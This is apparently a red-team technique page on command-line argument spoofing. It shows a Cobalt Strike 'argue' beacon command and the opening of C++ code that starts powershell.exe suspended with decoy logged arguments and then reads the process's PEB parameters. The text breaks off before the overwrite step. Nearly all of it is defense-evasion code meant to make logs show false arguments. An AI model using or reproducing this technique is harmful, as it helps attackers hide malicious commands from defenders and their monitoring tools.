 ### Command line argument spoofing

In Cobalt Strike beacon commands:
```
argue powershell -c "Invoke-WebRequest -Uri 'https://catfact.ninja/fact' -UseBasicParsing | Select-Object -ExpandProperty 'Content' | ConvertFrom-Json | Select-Object -ExpandProperty fact"
```

Code:
```
#include <Windows.h>
#include <winternl.h>

#pragma comment(lib, "ntdll.lib")

int main() {

    auto si = new STARTUPINFOW();
    si->cb = sizeof(STARTUPINFOW);

    auto pi = new PROCESS_INFORMATION();
    LPCWSTR application = L"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\0";

    // the "fake" arguments that we want logged
    wchar_t fakeArgs[] = L"powershell.exe -c \"(Get-PSDrive $Env:SystemDrive.Trim(':')).Free/1GB\"\0";

    // create process in suspended state
    CreateProcess(
        application,
        fakeArgs,
        nullptr,
        nullptr,
        FALSE,
        CREATE_SUSPENDED,
        nullptr,
        nullptr,
        si,
        pi);

    // get process basic information
    auto pbi = new PROCESS_BASIC_INFORMATION();
    NtQueryInformationProcess(
        pi->hProcess,
        ProcessBasicInformation,
        pbi,
        sizeof(PROCESS_BASIC_INFORMATION),
        nullptr);

    // read the PEB
    PPEB peb = new PEB();

    ReadProcessMemory(
        pi->hProcess,
        pbi->PebBaseAddress,
        peb,
        sizeof(PEB),
        nullptr);

    // read the process parameters
    auto parameters = new RTL_USER_PROCESS_PARAMETERS();

    ReadProcessMemory(
        pi->hProcess,
```